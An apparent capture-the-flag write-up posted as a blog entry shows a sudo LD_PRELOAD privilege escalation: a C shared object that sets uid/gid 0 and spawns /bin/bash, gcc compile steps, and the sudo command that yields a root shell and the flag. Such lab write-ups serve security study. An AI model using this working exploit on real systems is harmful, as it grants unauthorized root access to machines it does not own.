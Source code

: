 ```yaml
---
layout: post
title: "PrivEsc abusing Sudo (LD_PRELOAD)"
date: 2020-04-17 00:22:00 -0000
categories: jekyll
permalink: /ctf.live/sudo
tags: [privesc, LD_PRELOAD, linux]

---
```


    noobuser@attackdefense:~$ id
    uid=999(noobuser) gid=999(noobuser) groups=999(noobuser)
    
    noobuser@attackdefense:~$ sudo -l
    Matching Defaults entries for noobuser on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
        env_keep+=LD_PRELOAD
    User noobuser may run the following commands on attackdefense:
        (root) NOPASSWD: /usr/sbin/apache2

then write C program in the writtable directory such as /var/tmp , /dev/shm and /tmp directory and save it to LD_PRELOAD_privesc.c

> #include <stdio.h>

> #include <sys/types.h>

> #include <stdlib.h> 

> void _init() { 

> unsetenv("LD_PRELOAD"); 

> setgid(0); 

> setuid(0); 

> system("/bin/bash"); 

> }

then compile the file and generate the object file

    noobuser@attackdefense:~$ /usr/bin/gcc -fPIC -shared -o LD_PRELOAD_privesc.so LD_PRELOAD_privesc.c -nostartfiles
    noobuser@attackdefense:~$ sudo LD_PRELOAD=/tmp/LD_PRELOAD_privesc.so /usr/sbin/apache2
    
    root@attackdefense:/tmp# id
    uid=0(root) gid=0(root) groups=0(root)
    
    root@attackdefense:/tmp# find /root/ type f -name flag
    /root/flag
    find: 'type': No such file or directory
    find: 'f': No such file or directory
    
    root@attackdefense:/tmp# cat /root/flag
    368b21993<snip>1ac697cc83
    
    root@attackdefense:/tmp# yeayy

